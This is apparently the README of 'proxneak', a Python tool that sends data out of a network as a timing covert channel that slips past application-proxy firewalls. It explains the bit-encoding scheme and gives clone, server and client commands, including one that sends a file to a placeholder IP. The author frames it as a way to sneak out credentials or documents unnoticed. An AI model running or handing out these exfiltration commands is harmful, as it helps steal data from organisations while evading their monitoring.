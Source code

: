 proxneak
========

A means of exfiltrating data through anything that allows a connection,
including regenerative proxies.

The idea came to me while I was tinkering with an application-proxy firewall.
For those unfamiliar, these devices use a deeper level of packet inspection to
determine the protocol in use and match it to a rule.  For example, if generic
HTTP is allowed, then someone trying to tunnel, say, SSH over it would find
the connection dropped.  While there are some clever ways out there of hiding
one protocol in another (HTTP over DNS comes to mind), I wanted a way to send
information regardless of the filters.

Proxneak does this by utilizing the basic behavior of the proxies (if there is
one) to send the packet on if it matches the parameters.  Many proxies will
establish a TCP connection first to see if it's allowed and then look at the
contents to see if it should be closed off.  In part to prevent something
sneaking through in the structure, they regenerate the packet entirely, often
resulting in a TCP connection from an OS different from the originating system
(for example, FreeBSD instead of Windows).  But it still sends a packet, and
that a packet is sent can still be a form of information.

The code uses timing between received packets to signify bits: a packet 
arriving means a 1, no packet means a 0.  There's an opening set of eight 
packets to set the timing and a closing sequence that equates to 0x00FFFF 
to initiate decoding.

Data is sent Base64-encoded and, optionally, compressed.  It's slow: at a 
default rate of one packet per second with no compression, it takes an entire 
day to send about 8KB.  But that's more than enough to sneak out some 
credentials, and if you have a reasonably good connection and a couple of days, 
it's possible to sneak out a Word doc or PDF.

(Note that this might also be a way of sending information, albeit slowly,
that the NSA, et al., can't reasonably track.  Saving all of the SYN packets
that cross the Internet just isn't a practical way of doing business.)

Requirements
============
 - Python 2.7 on sending and receiving side (basic installation may suffice,
   python-argparse sometimes needs to be added)
 - pcapy on the receiving side


Install
=======
Download the latest version from the GitHub repo:

git clone https://github.com/NetworkLlama/proxneak.git


Usage
=====
Set up the server:

```sudo python proxneak-server.py -i eth0 --proto t -p 80 -f test.txt```


And then send the data with the client:

```python proxneak.py -d 198.51.100.27 --proto t -p 80 -f test.txt -r 10```


Command Line
============
Sender
------
* -h, --help   show this help message and exit
* -s <src>     Source IP address (not currently implemented
* -d <dst>     Destination IP address (required)
* -p port      Destination port (default is 53)
* --proto      Protocol to use (t=TCP, u=UDP (default), i=ICMP); ICMP requires
               root access
* -f filename  Input file name
* -r integer   Number of packets to send per second (default 1; recommended is
               5 or less)
* -v           Verbose mode (be aware that this may leave behind artifacts)
* -V           Display version number
* -z           Compress content with bzip2 before sending

Receiver
--------
* -h, --help          show this help message and exit
* -i <interface>      Listener network interface (required)
* -s <src>            Sending IP address (optional)
* -d <dst>            Receiving IP address (optional)
* -p <port>           Listener port (default is 53)
* --proto <protocol>  Protocol to use (T=TCP, U=UDP (default), I=ICMP)
* -f filename         Output file name (required)
* -r filename         Read a list file in (requires --proto be specified)
* -v                  Verbose mode
* -V                  Display version number
* -z                  Incoming content is compressed with bzip2


Usage Notes
===========
* Sending to a system set to drop the inbound packets seems to work best (at
  least with regard to UDP).
* If you send with -z, you must receive with -z.  There's no automatic checking
  yet for whether incoming material is compressed.
* The rate setting (-r) is the number of packets per second, so it's the
  inverse of the gap between packets (-r 10 is 10pps or ~100ms between
  packets).  Be realistic.  Sending at 100pps might work if you're on a network
  that can actually do full gigabit, it's not going to work.  There's a reason
  the default is 1pps, and even that can have problems.
* Wireless makes life difficult.  The odds of a packet being delayed and
  throwing off the entire thing is extremely high, such that anything past a
  couple of hundred bytes has a very strong tendency to fail unless your gap is
  greater than about eight seconds.


Thanks
======
* Stephen Sims for getting me started on Python in a grueling SANS SEC660 class
* Lelouch Lamperouge for some inspiration on bits-to-bytes conversion
* Silver Moon for his pcapy code
* Catherine for putting up with me while I'm coding


Contact
=======
Jarrod Frates (jfrates@gmail.com)
http://llamasinmynetwork.com
